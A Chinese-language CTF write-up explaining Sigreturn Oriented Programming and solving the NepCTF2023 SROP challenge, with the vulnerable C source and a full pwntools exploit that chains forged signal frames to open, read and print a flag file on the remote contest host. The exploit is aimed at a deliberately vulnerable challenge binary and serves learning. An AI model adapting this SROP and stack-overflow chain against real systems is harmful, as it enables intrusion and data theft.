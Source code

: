 ```yaml
---
title: SROP初见杀-NepCTF2023
date: 2023-08-12 20:45:49
tags:
  - pwnable
categories:
  - CS
excerpt: 这次比赛第一题就是很明显的 SROP，正好啥也不会，学习了一下
---
```


> 这次比赛第一题就是很明显的**SROP**，正好啥也不会，学习了一下

# SROP

**SROP**全称为**Sigreturn Oriented Programming**，其攻击核心为通过伪造一个**Signal Frame**（以下简称**sigFrame**）在栈上，同时触发**sigreturn**系统调用，让内核为我们恢复一个sigFrame所描述的进程，如一个shell、一个wrtie系统调用打印栈地址等，同时通过对sigFrame中rsp和rip的修改，连接多个sigFrame，可通过多次触发sigreturn系统调用，依次恢复多个sigFrame，实现不同的功能，构成SROP攻击。一个sigFrame可理解为一个进程被挂起时，用于保存进程的数据结构，当进程恢复时，通过触发sigreturn来恢复sigFrame，从而恢复一个进程。

以上内容是抄的，说白了就是：进程受到一个signal进入中断，内核会保存上下文（寄存器状态之类的，这个上下文存在**sigFrame**中），随后进入用户态执行处理函数，处理完最后又进入内核态恢复上下文

![image-20230812205434238](../img/SROP.assets/image-20230812205434238.png)

而这个保存上下文的sigFrame完全在**用户空间**，并且内核对进程挂起时保存的sigFrame以及恢复时还原的sigFrame**没有做任何关联**，这导致sigFrame可以被伪造

![image-20230812205639153](../img/SROP.assets/image-20230812205639153.png)

上图是64位的sigFrame结构。恢复上下文之前，会调用处理函数**Signal Handler**，该函数最后一个指令是`ret`，此时`rsp`正好指向sigFrame的栈顶，也就是存有函数`rt_sigreturn`地址的位置。随后调用`rt_sigreturn`，通过该函数完成上下文的恢复。

因此，我们可以在`rsp`附近伪造sigFrame，通过调用`rt_sigreturn`完成寄存器的布置

调用可以直接写内存，更常见的是进行调用号为0xf的系统调用

> 小技巧：系统调用号可以通过`cat /usr/include/asm/unistd_64.h`查看

另外，pwntools中的`SigreturnFrame()`可以方便完成寄存器的布置

# Nepctf2023-SROP

源码都喂我嘴里了

```c
//gcc -no-pie pwn.c -fno-stack-protector -z now -o pwn  -lseccomp
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <syscall.h>
#include <seccomp.h>
#include <linux/seccomp.h>

char buf[0x30]="welcome to NepCTF2023!\n";

int seccomp(){
    scmp_filter_ctx ctx;
    ctx = seccomp_init(SCMP_ACT_KILL);
    seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(open), 0);
    seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(write), 0);
    seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(read), 0);
    seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(rt_sigreturn), 0);
    seccomp_load(ctx);
    return 0;
}

int sys(){
    return 15;
}

int main(){
     char bd[0x30];
     seccomp();
     syscall(1,1,buf,0x30);
     return syscall(0,0,bd,0x300);
}
```

显然需要打一个orw

注意这里有一个坑，众所周知，`syscall`的系统调用号是通过`rax`传递，然而我们反汇编之后

![image-20230812211245122](../img/SROP.assets/image-20230812211245122.png)

令人意外的是，这里的`syscall`都是通过`rdi`传调用号的，猜测与这里使用`call syscall`而非直接使用`syscall`有关

既然不用`rax`传调用号，那题目中的`sys()`函数也就没有意义了，好在能找到`pop rdi`的gadgets，可以任意布置

我的思路是，先打一次srop，把flag写到bss段，顺便把栈迁移过去，随后挨着打orw



**伪造sigFreame**时需要**格外注意**

`cs` `gs` `fs` `ss`需要**保持不变**！否则会报错！



本人就在这里排查了很久

可以按照如下写法

`sig.csgsfs = (0x002b * 0x1000000000000) | (0x0000 * 0x100000000) | (0x0000 * 0x10000) | (0x0033 * 0x1)`

从左往右依次为`cs` `gs` `fs` `ss`

exp如下

```python
#!/usr/bin/env python2
# -*- coding: utf-8 -*-
from pwn import*

context(os = 'linux', arch = 'amd64', log_level = 'debug', terminal = ['tmux', 'new-window'])
def debug(cmd=''):
	cmd += "b *0x0000000004007AE\n"
	gdb.attach(p, cmd)
	pause()

host = "nepctf.1cepeak.cn"
port = 30551
#p = process("./pwn")
p = remote(host, port)

sig = 0x0000000000400750
pop_rdi = 0x0000000000400813
syscall = 0x00000000004007A8
buf = 0x0000000000601020

p.recv()
payload = "\x00"*0x38 +p64(pop_rdi)+p64(0xf)
sig = SigreturnFrame()
sig.uc_flags = syscall
sig.rax = 0
sig.rdi = 0
sig.rsi = 0
sig.rdx = buf
sig.rcx = 0x1000
sig.rip = syscall
sig.rsp = buf+0x10
sig.csgsfs = (0x002b * 0x1000000000000) | (0x0000 * 0x100000000) | (0x0000 * 0x10000) | (0x0033 * 0x1)
payload += str(sig)

p.send(payload)

# debug()

payload = "flag\x00\x00\x00\x00"
payload += p64(pop_rdi) + p64(0xf)
sig = SigreturnFrame()
sig.uc_flags = syscall
sig.rax = 0
sig.rdi = 2
sig.rsi = buf
sig.rdx = 0
sig.rcx = 0
sig.rip = syscall
sig.rsp = buf+0x120
sig.rbp = buf+0x120
sig.csgsfs = (0x002b * 0x1000000000000) | (0x0000 * 0x100000000) | (0x0000 * 0x10000) | (0x0033 * 0x1)
payload += str(sig)

payload = payload.ljust(0x120,"\x00")
payload += p64(buf+0x120)#rbp
payload += p64(pop_rdi) + p64(0xf)
sig = SigreturnFrame()
sig.uc_flags = syscall
sig.rax = 0
sig.rdi = 0
sig.rsi = 3
sig.rdx = buf
sig.rcx = 0x100
sig.rip = syscall
sig.rsp = buf+0x240
sig.rbp = buf+0x240
sig.csgsfs = (0x002b * 0x1000000000000) | (0x0000 * 0x100000000) | (0x0000 * 0x10000) | (0x0033 * 0x1)
payload += str(sig)

payload = payload.ljust(0x240,"\x00")
payload += p64(buf+0x240)#rbp
payload += p64(pop_rdi) + p64(0xf)
sig = SigreturnFrame()
sig.uc_flags = syscall
sig.rax = 0
sig.rdi = 1
sig.rsi = 1
sig.rdx = buf
sig.rcx = 0x100
sig.rip = syscall
sig.rsp = buf+0x240
sig.rbp = buf+0x240
sig.csgsfs = (0x002b * 0x1000000000000) | (0x0000 * 0x100000000) | (0x0000 * 0x10000) | (0x0033 * 0x1)
payload += str(sig)


p.send(payload)

p.interactive()
```

